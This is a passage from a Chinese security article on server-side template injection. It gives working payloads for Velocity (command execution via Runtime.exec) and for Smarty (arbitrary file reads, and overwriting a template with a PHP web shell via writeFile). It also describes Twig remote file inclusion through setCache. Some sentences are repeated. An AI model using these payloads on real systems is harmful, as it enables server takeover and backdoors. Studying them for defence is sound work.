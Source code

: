 获取 shell 命令的输出就比较麻烦：

```
#set($str=$class.inspect("java.lang.String").type)#set($chr=$class.inspect("java.lang.Character").type)#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#endtomcat7
```

Smarty
------

Smarty 是 Smarty 是一个 PHP 的模板引擎，提供让程序逻辑与页面显示（HTML/CSS）代码分离的功能。Smarty 是最流行的 PHP 模版语言之一，并为不受信任的模版执行提供了一种安全模式。根据说明，可以强制执行 PHP 函数的白名单，以至于使模版无法直接的调用 system()。但同样，不会阻止我们在可以获取引用的任何类上进行调用。根据官方文档显示，可以使用内置变量来访问各种环境变量，包括当前文件在 smarty 内置变量来访问各种环境变量，包括当前文件在 SCRIPT_NAME 的位置。变量名暴力破解会很快显示出 self 对象，该对象是对当前模板的引用。在这里我们使用变量名暴力破解会很快显示出 self 对象，该对象是对当前模板的引用。在这里我们来看一下 uwetews-Github 上的内容。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWY5LUgkf9GxMZa5Ribta2DqmJTCsAZn2icV7mzNNqRF2Fyc5Q7KOV1fK1Eia25B38mX8lP8wb3u4KhA/640?wx_fmt=png)

仔细观察 getStreamVariable 方法，发现可以用来读取服务器上可以读写权限的任何文件。

```
{self::getStreamVariable("file:///proc/self/loginuid")}1000{self::getStreamVariable($SCRIPT_NAME)}<?phpdefine("SMARTY_DIR",'/usr/share/php/Smarty/');require_once(SMARTY_DIR.'Smarty.class.php');...
```

除了这种方法之外，我们还可以调用任意的静态方法。Smarty 公开了一系列的静态类，其中重要的就是 Smarty_Internal_Write_File，这个类具有的方法：

```
public function writeFile($_filepath, $_contents, Smarty $smarty)
```

这个功能的主要作用是创建和覆盖任意文件，所以可以在 webroot 中创建任意的 PHP 后门，从而提供进一步控制服务器的方法。不过仔细的看一下相关的参数，发现第三个参数的要求是拒绝非 Smarty 类型的输入，这就意味着我们需要获取对 Smarty 对象的引用。我们进一步的进行代码分析

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RWY5LUgkf9GxMZa5Ribta2Dqt4qHloTTKwknKDy6zhA3kOQUCb01XN481FmJ7yc0jp8mGRibiaLKoO3w/640?wx_fmt=jpeg)

发现 self :: clearConfig（）方法是合适的。所以最终的 payload 就是利用后门覆盖相关的模版文件。  

```
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

Twig
----

Twig 是一个灵活，快速，安全的 PHP 模板语言。它将模板编译成经过优化的原始 PHP 代码。Twig 拥有一个 Sandbox 模型来检测不可信的模板代码。Twig 由一个灵活的词法分析器和语法分析器组成，可以让开发人员定义自己的标签，过滤器并创建自己的 DSL。示例模板：

```
{% extends "layout.html" %}{% block content %}  Content of the page...{% endblock %}
```

默认情况下，它具有类似于 Smarty 的安全模式的限制，还有两个重要的附加限制 - 无法调用静态方法，并且所有函数的返回值都强制转换为字符串。这意味着我们不能像使用 Smarty 的 self::clearConfig() 那样使用函数来获取对象引用。与 Smarty 不同，Twig 已记录了其 self 对象（_self），因此我们无需强制使用任何变量名。

该_self 对象不包含任何有用的方法，但确实有一个 ENV 是指属性 Twig_Environment 对象。Twig_Environment 上的 setCache（）方法可用于更改 Twig 尝试从中加载和执行编译的模板（PHP 文件）的位置。所以，很明显，攻击方法可以通过将缓存位置设置为远程服务器来引入 “远程文件包含”
